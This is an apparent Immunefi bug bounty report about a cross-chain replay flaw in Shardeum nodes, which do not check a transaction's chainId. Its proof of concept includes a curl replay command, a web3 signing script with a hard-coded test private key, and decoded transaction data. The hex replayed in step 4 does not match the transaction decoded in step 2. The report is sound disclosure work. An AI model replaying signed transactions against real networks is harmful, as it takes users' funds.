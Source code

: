 
# Cross-chain replay attacks are possible due to a missing 'chainId' check

Submitted on Sun Jul 21 2024 15:04:08 GMT-0400 (Atlantic Standard Time) by @anton_quantish for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33473

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Direct loss of funds

## Description
## Brief/Intro
The `chainId` transaction parameter is not checked before it's executed that leads to cross-chain replay attacks.

## Vulnerability Details
Every blockchain has its own unique `chainId` which should prevent the cross-chain replay attacks.

Let's imagine some address `0x1` sends 1 ether in the Ethereum to attacker (`0x2`). He makes a tx like the following, signs it, and submits in the Ethereum:
```json
{"chainId": 1, "from": "0x1", "to": "0x2", "value": 1000000000000000000, "nonce": 0}
```
The tx is successfully executed and the attacked got his 1 ether on the Ethereum.

Then, the attacker copies this signed transaction and submits it in the Shardeum.

Usually, the node first checks the signature and then checks if the `chainId` belongs to the node's blockchain or not. The Shardeum nodes, however, don't check it so, if the `0x1` address has sufficient balance in the Shardeum, the transaction will be executed because the tx signature itself is valid.

Thus, the attacker will steal 1000000000000000000 SHM from the victim.

Also, as I see, the Shardeum nodes ignore the absence of the `chainId` tx field. All the Ethereum transactions before EIP-155 do not have this field. So, these old transactions could be replayed as well (see the `Mitigation` section).

## Impact Details
The attacker can replay arbitrary transactions from other blockchains which leads to a direct loss of the user funds.

## Mitigation
Receiving a tx you MUST check that:
- the `chainId` is present and is equal to the current blockchain chainId (8080 by default);
- the `chainId` field is signed and the signature is valid.

## References
https://github.com/ethereum/EIPs/blob/master/EIPS/eip-155.md
https://mirror.xyz/0xbuidlerdao.eth/lOE5VN-BHI0olGOXe27F0auviIuoSlnou_9t3XRJseY
https://www.quicknode.com/guides/ethereum-development/smart-contracts/what-are-replay-attacks-on-ethereum
        
## Proof of concept
## Proof of Concept
First, let's check the `chainId`-absent transactions could be replayed.
1. Navigate to the following TX in Etherscan:
https://etherscan.io/tx/0x5c504ed432cb51138bcf09aa5e8a410dd4a1e204ef84bfed1be16dfba1b22060
This is the very first Tx set in the Ethereum blockchain

2. In the top-right corner you can switch the view to a raw tx hex. It's the following:
```
0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a
```
If you decode it with
https://www.ethereumdecoder.com/?search=0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a
you will see, the tx body is
```json
{
  "nonce": 0,
  "gasPrice": {
    "_hex": "0x2d79883d2000"
  },
  "gasLimit": {
    "_hex": "0x5208"
  },
  "to": "0x5df9b87991262f6ba471f09758cde1c0fc1de734",
  "value": {
    "_hex": "0x7a69"
  },
  "data": "0x",
  "v": 28,
  "r": "0x88ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0",
  "s": "0x45e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a"
}
```
3. Start the nodes and the JSON-RPC server, fill the `0xA1E4380A3B1f749673E270229993eE55F35663b4` balance with some SHM (it will need more than 31337 + gas)
4. Replay this tx with the following cURL command:
```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf86b808501dcd6500082520894e952ad0d1ff706e47bcea25d29a918126efb0a99871c6bf5263400008026a0b2e4be2b39797e24f418a61378c828a7ee0e5662d011cf58ffd6fdc4d91fff84a057753b07aadf290e4fa6d8f9c533dec5e0dccb87e67cadca08d169ff6297c73b"],"id":1}' 
{"jsonrpc":"2.0","id":1,"result":"0x582b88655a7dad511eb477e445ebcfbc1c9ea5366ace3df7ac1d8b7f05813ea7"}
```
5. Wait a little, make sure the tx is executed successfully and the transfer of 31337 SHM is made from `0xA1E4380A3B1f749673E270229993eE55F35663b4` to `0x5df9b87991262f6ba471f09758cde1c0fc1de734` despite we don't know the sender private key.

As for the transactions with `chainId` field replaying, it's a bit difficult to reproduce because all the modern Ethereum transactions uses `maxFeePerGas` and `maxPriorityFeePerGas` fields but your RPC rejects it for some reason. To reproduce, you can just sign a tx for the different chain and then submit it to the Shardeum JSON-RPC using the following python script:
```python
from web3 import Web3
w3 = Web3(Web3.HTTPProvider('http://172.16.205.128:8080'))

FROM = '0x1d9f3e0620b7f19794a01da018fae85c534ae97e'

transaction = {
    'from': '0x1d9f3e0620b7f19794a01da018fae85c534ae97e',
    'to': '0xa54E321c2A394451F3286386cA26BE2317B4C212',
    'value': 2,
    'nonce': 0,
    'gas': 200000,
    'gasPrice': 10000,
    'chainId': 137  # Polygon
}

# 2. Sign tx with a private key
signed = w3.eth.account.sign_transaction(transaction, '0xed70dc3717453ccbd9147ff5da9ad4f2c87a8a0d9861f83b116400e0fa31632a')
print(signed)

# 3. Send the signed transaction
tx_hash = w3.eth.send_raw_transaction(signed.rawTransaction)
tx = w3.eth.get_transaction(tx_hash)
print(tx)
```
Just fill the sender `0x1d9f3e0620b7f19794a01da018fae85c534ae97e` with some SHM before the executing.

It should be rejected because of `chainId` differs from your own one, but the tx is successfully executed instead. In a real life it could be the tx that were previously submitted into other blockchain and then replayed on the Shardeum.